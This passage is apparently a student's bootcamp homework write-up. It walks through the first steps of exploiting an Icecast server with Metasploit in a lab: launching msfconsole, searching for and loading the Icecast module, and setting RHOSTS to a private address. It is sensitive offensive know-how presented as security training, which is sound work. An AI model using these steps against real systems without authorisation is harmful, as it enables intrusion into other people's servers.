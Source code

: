    - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`


 ![b3](https://github.com/H-JAVID/JAVID_UCB-Submitted-Home-work/blob/main/WEEK17-Homework/17-Hw-IMAGES/b3.PNG)
 
 
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: msf5 > `search Icecast`


 ![b4](https://github.com/H-JAVID/JAVID_UCB-Submitted-Home-work/blob/main/WEEK17-Homework/17-Hw-IMAGES/b4-note.PNG)



   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: msf5 > `use 0`


 ![b4-note](https://github.com/H-JAVID/JAVID_UCB-Submitted-Home-work/blob/main/WEEK17-Homework/17-Hw-IMAGES/b4-note.PNG)
 
 
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`: 
      
     > Answer:  `set RHOSTS 192.168.0.20`


 ![b5](https://github.com/H-JAVID/JAVID_UCB-Submitted-Home-work/blob/main/WEEK17-Homework/17-Hw-IMAGES/b5.PNG)
 
